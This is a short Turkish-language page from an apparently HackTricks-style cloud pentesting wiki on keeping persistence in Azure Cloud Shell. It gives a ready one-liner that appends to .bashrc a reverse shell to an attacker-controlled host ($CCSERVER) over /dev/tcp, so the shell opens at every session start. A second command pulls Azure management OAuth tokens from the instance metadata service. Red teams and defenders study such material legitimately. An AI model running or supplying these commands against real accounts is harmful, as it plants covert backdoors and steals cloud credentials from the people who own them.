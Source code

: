 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell, Azure kaynaklarını yönetmek için kalıcı depolama ve otomatik kimlik doğrulama ile komut satırı erişimi sunar. Saldırganlar, kalıcı ana dizine arka kapılar yerleştirerek bunu istismar edebilir:

* **Kalıcı Depolama**: Azure Cloud Shell’in ana dizini, bir Azure dosya paylaşımına monte edilir ve oturum sona erdikten sonra bile sağlam kalır.
* **Başlangıç Betikleri**: .bashrc gibi dosyalar, her oturumun başlangıcında otomatik olarak çalıştırılır ve bulut kabuğu başladığında kalıcı yürütme sağlar.

.bashrc'deki örnek arka kapı:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
Bu arka kapı, kullanıcı tarafından bulut kabuğu tamamlandıktan 5 dakika sonra bile komutları çalıştırabilir.

Ayrıca Azure'un metadata hizmetinden örnek detayları ve token'lar için sorgu yapın:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
{{#include ../../../banners/hacktricks-training.md}}
